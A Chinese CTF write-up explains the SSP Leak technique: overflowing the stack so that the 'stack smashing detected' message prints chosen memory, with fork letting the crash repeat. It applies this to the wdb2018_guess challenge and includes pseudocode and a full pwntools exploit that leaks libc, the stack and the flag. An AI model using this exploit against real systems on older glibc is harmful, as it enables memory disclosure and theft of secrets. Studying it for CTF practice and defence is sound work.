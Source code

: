 ```yaml
---
title: Stack smash
date: 2020-04-09 20:40:10
tags: pwn
---
```

最近在出题啊，往安恒投题，能恰钱，收到邮件的时候很快乐<!--more-->  
  
先简单讲一下fork函数，fork是复制一份进程，它会有两个返回值，用一个if条件，如果返回0，说明是子进程，如果返回是一个pid号，说明是父进程  
什么意思呢？其实后面的这些不明白也不是很重要（目前来说），fork是复制一份进程，那么，触发canary的时候，程序崩溃，不会直接退出，而是再次执行子进程，子进程由于是复制而来的，所以所有内存布局，canary等值是一模一样的，那就快乐了，我写一个for循环fork，就能把触发canary而崩溃的程序重新执行，循环几次执行几次  
SSP Leak又是什么呢？就是Stack Smashing Protector Leak，触发时会执行__stack_chk_fail函数，打印出"stack smashing detected"，并且后面会跟一个参数，正常来说这个参数就是程序名，但是如果我们通过栈溢出来将其覆盖成其他地址，就能通过触发canary打印出的报错信息来泄露我们想得到的内存数据，几乎可以实现任意地址读  
但是有一点需要注意，SSP Leak只适用于ubuntu1604的环境，高版本libc已经不能利用这种技术来泄露了  
先贴个源码比较一下  
glibc2.23  
```C++  
#include <stdio.h>
#include <stdlib.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
            msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```  
glibc2.27  
```C++  
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
            "*** %s ***: %s terminated\n",
            msg,
            (need_backtrace && __libc_argv[0] != NULL
             ? __libc_argv[0] : "<unknown>"));
}

void
__attribute__ ((noreturn))
__fortify_fail (const char *msg)
{
  __fortify_fail_abort (true, msg);
}

libc_hidden_def (__fortify_fail)
libc_hidden_def (__fortify_fail_abort)
```  
通过实验发现，在glibc2.27的环境下只会打印unknown  
例题：wdb2018_guess  
[题目下载地址](https://buuoj.cn/challenges#wdb2018_guess)  
检查保护  
```shell  
➜  wdb2018_guess checksec GUESS
[*] '/home/N0vice/Desktop/BUUCTF/wdb2018_guess/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```  
IDA分析下伪代码  
```C++  
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch]
  int v5; // [rsp+1Ch] [rbp-84h]
  __int64 v6; // [rsp+20h] [rbp-80h]
  __int64 v7; // [rsp+28h] [rbp-78h]
  char buf; // [rsp+30h] [rbp-70h]
  char s2; // [rsp+60h] [rbp-40h]
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v7 = 3LL;
  LODWORD(stat_loc.__uptr) = 0;
  v6 = 0LL;
  sub_4009A6(a1, a2, a3);
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), &buf, 0x30uLL);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( v6 >= v7 )
    {
      puts("you have no sense... bye :-) ");
      return 0LL;
    }
    v5 = sub_400A11();
    if ( !v5 )
      break;
    ++v6;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
  gets(&s2);
  if ( !strcmp(&buf, &s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}
```  
```C++  
__int64 sub_400A11()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  v1 = fork();
  if ( v1 == -1 )
    err(1, "can not fork");
  return v1;
}
```  
用了while循环和if判断，使我们能进行3次猜测  
主要思路如下：  
计算可控输入首地址和__libc_argv[0]之间的偏移，将__libc_argv[0]覆盖成puts_got，泄露libc_base  
泄露栈地址  
计算栈地址与flag之间的距离，得到flag的地址  
覆盖__libc_argv[0]为成flag地址，泄露flag  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn1' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(elf.got['puts'])
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    environ = libc_base + libc.sym['environ']
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(environ)
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    log.success("stack_addr==>" + hex(stack_addr))
    flag = stack_addr - 0x168
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(flag)
    p.sendline(payload)
    p.interactive()
exp()
```  
参考链接：  
https://cloud.tencent.com/developer/article/1607482  
https://ihomura.cn/2018/08/23/WriteUp-%E7%BD%91%E9%BC%8E%E6%9D%AF%E6%95%99%E8%82%B2%E7%BB%84/  
http://www.pwn4fun.com/pwn/stack-pivot-and-stack-smash.html#2018%E7%BD%91%E9%BC%8E%E6%9D%AFGUESS  
https://bbs.pediy.com/thread-224643.htm  